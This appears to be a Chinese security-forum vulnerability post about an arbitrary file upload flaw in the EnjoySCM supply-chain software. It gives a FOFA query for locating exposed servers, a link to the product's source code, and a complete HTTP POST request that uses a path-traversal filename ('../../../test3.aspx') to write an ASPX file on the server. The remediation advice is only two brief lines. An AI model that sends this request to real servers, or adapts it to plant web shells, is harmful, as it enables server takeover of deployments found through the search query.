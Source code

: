 # EnjoySCM UploadFile 任意文件上传漏洞第二处

    \[漏洞情报\] EnjoySCM UploadFile 任意文件上传漏洞第二处
========================================

漏洞标题

EnjoySCM UploadFile 任意文件上传漏洞第二处



漏洞描述

EnjoySCM是一款适应于零售企业的供应链管理软件，主要为零售企业的供应商提供服务。  

EnjoySCM UploadFile 参数存在 任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。

C

**漏洞细节:**



FOFA:
-----

```null
title="供应商网上服务厅"
```

PoC:
----

前面在某公众号看到的一个漏洞，下载代码稍微看了一下 漏洞有点多 \- -  
源码可以在这里下载：[https://oss.ywhack.com/%E6%A3%B1%E8%A7%92%E7%A4%BE%E5%8C%BA/coder/SCM40.zip](https://oss.ywhack.com/%E6%A3%B1%E8%A7%92%E7%A4%BE%E5%8C%BA/coder/SCM40.zip)

```null
POST /ImportData/UploadFile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="101", "Chromium";v="101", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxwovFKSa
Content-Length: 153

------WebKitFormBoundaryxwovFKSa
Content-Disposition: form-data; name="file";filename="../../../test3.aspx"

test3
------WebKitFormBoundaryxwovFKSa--
```

![](https://forum.ywhack.com/attachments/month_2303/2303062131a3312f6ea80f416e.png)



**加固建议:**

严格限制上传文件类型；  
联系厂商获取加固建议。
